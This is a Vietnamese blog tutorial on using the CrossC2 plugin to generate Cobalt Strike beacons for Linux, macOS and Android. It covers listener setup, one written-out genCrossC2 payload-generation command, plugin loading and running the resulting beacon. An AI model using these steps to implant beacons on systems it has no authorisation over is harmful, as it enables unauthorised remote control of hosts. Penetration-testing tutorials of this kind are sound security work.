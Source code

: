 ```yaml
---
title: "CrossC2 – Generate CobaltStrike’s Cross-Platform Payload"
date: 2021-11-03T18:17:00+07:00
draft: false
categories: [
    "Offensive Security"
]
tags: [
    "Tool",
]
---
```

* [Introduce](#introduce)
* [Config](#config)
    * [Listener](#listener)
    * [Generate beacon](#generate-beacon)
        * [Gen via command](#gen-via-command)
        * [Gen via install plugin](#gen-via-install-plugin)
* [Result](#result)
* [References](#references)
## Introduce
- "Cobalt Strike is threat emulation software. Execute targeted attacks against modern enterprises with one of the most powerful network attack kits available to penetration testers. This is not compliance testing."

- Nếu như bạn từng sử dụng Cobalt Strike chắc cũng sẽ biết Cobalt Strike không hỗ trợ điều khiển từ xa Linux, MacOS, Android... theo mặc định.

- CrossC2 là một plugin mở rộng hỗ trợ Cobalt Strike điều khiển từ xa các máy chủ Linux, MacOS, Android....Nó hỗ trợ các thư viện động do người dùng chỉ định, tải, thực thi các thư viện này.

- Bạn có thể xem chi tiết về dự án tại đây: https://github.com/gloxec/CrossC2
## Config
### Listener
- Đầu tiên chúng ta sẽ tạo một listener để lắng nghe kết nối từ xa

- Cobalt Strike -> Listener

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/listener.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/listener.PNG)

- Một điều đáng chú ý ở đây là CrossC2 hiện tại chỉ hỗ trợ Beacon Https. Vậy ta sẽ tạo Beacon HTTPS. Đối với các Beacon khác như HTTP sẽ không thể nhận kết nối.
### Generate beacon
- Ở đây sẽ có 2 phương phương pháp. Chúng ta có thể gen trực tiếp từ binaries mà tác giả đã compile bằng command hoặc install vào Cobalt Strike như một plugin phụ trợ để gen theo dạng Gui. Mình sẽ làm theo cả 2 cách:
#### Gen via command
- Đầu tiên chúng ta sẽ tải binary về tại đây: https://github.com/gloxec/CrossC2/releases

- Cách sử dụng tác giả cũng đã nói rất chi tiết:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/binary.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/binary.PNG)

- Vì phiên bản Cobalt Strike đang sử dụng là 4.4 nên để gen payload tôi sử dụng lệnh sau:

- `./genCrossC2.Linux IP_Listener 4444 .cobaltstrike.beacon_keys null Linux x64 ./beacon_linux_test stager 4.4`

- cobaltstrike.beacon_keys: được tạo trong cùng thư mục root của Cobalt Strike server khi tạo Listener từ đầu

- Sau khi chạy lệnh thành công tôi nhận được beacon mới trong thư mục hiện tại:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/beacon.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/beacon.PNG)
#### Gen via install plugin
- Đầu tiên chúng ta sẽ tải về:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/save.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/save.PNG)

- Và đừng quên tải xuống: https://github.com/gloxec/CrossC2/blob/cs4.1/CrossC2Kit/CrossC2Kit_Loader.cna (including memory loading and other functions)

- Trong CrossC2.cna chúng ta sẽ chỉnh sửa lại path đến binary gen payload và cobaltstrike.beacon_keys cho phù hợp:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/edit.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/edit.PNG)

- Sau đó chúng ta sẽ tải plugin vào Cobalt Strike: Cobalt Strike -> Script Manager -> Load. Sau khi load xong chúng ta sẽ có thêm chức năng CrossC2 trên thanh Menu. Lúc này ta có thể sử dụng để gen payload:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/menu.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/menu.PNG)

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/gen.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/gen.PNG)
## Result
- Sau khi download và thực thi payload tạo dựa trên command hay GUI trên máy chủ Linux:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/run.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/run.PNG)

- Chúng ta có thể làm tương tự để nhận kết nối tự MacOS, Android...
## References

-[https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html](https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html)

